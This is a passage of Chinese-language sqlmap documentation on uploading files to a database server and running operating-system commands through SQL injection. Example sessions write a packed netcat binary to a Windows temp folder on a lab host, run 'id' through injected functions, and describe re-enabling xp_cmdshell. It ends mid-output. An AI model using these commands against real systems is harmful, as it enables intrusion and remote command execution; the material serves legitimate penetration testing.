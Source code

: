 ### 把文件上传到数据库服务器中

参数：–file-write,–file-dest

当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。上传的文件可以是文本也可以是二进制文件。

列举一个MySQL的例子：

```
$ file /software/nc.exe.packed 
/software/nc.exe.packed: PE32 executable for MS Windows (console) Intel 80386 32-bit

$ ls -l /software/nc.exe.packed
-rwxr-xr-x 1 inquis inquis 31744 2009-MM-DD hh:mm /software/nc.exe.packed

$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" --file-write \
"/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1

[...]
[hh:mm:29] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003 or 2008
web application technology: ASP.NET, Microsoft IIS 6.0, ASP.NET 2.0.50727
back-end DBMS: MySQL &gt;= 5.0.0

[...]
do you want confirmation that the file 'C:/WINDOWS/Temp/nc.exe' has been successfully 
written on the back-end DBMS file system? [Y/n] y
[hh:mm:52] [INFO] retrieved: 31744
[hh:mm:52] [INFO] the file has been successfully written and its size is 31744 bytes, 
same size as the local file '/software/nc.exe.packed'
```

### 运行任意操作系统命令

参数：–os-cmd,–os-shell

当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。

在MySQL、PostgreSQL，sqlmap上传一个二进制库，包含用户自定义的函数，sys_exec()和sys_eval()。

那么他创建的这两个函数可以执行系统命令。在Microsoft SQL Server，sqlmap将会使用xp_cmdshell存储过程，如果被禁（在Microsoft SQL Server 2005及以上版本默认禁制），sqlmap会重新启用它，如果不存在，会自动创建。

列举一个PostgreSQL的例子：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" \
--os-cmd id -v 1

[...]
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: PostgreSQL
[hh:mm:12] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:12] [INFO] the back-end DBMS operating system is Linux
[hh:mm:12] [INFO] testing if current user is DBA
[hh:mm:12] [INFO] detecting back-end DBMS version from its banner
[hh:mm:12] [INFO] checking if UDF 'sys_eval' already exist
[hh:mm:12] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:12] [INFO] creating UDF 'sys_eval' from the binary UDF file
[hh:mm:12] [INFO] creating UDF 'sys_exec' from the binary UDF file
do you want to retrieve the command standard output? [Y/n/a] y
command standard output:    'uid=104(postgres) gid=106(postgres) groups=106(postgres)'

[hh:mm:19] [INFO] cleaning up the database management system
do you want to remove UDF 'sys_eval'? [Y/n] y
do you want to remove UDF 'sys_exec'? [Y/n] y
[hh:mm:23] [INFO] database management system cleanup finished
[hh:mm:23] [WARNING] remember that UDF shared object files saved on the file system can 
```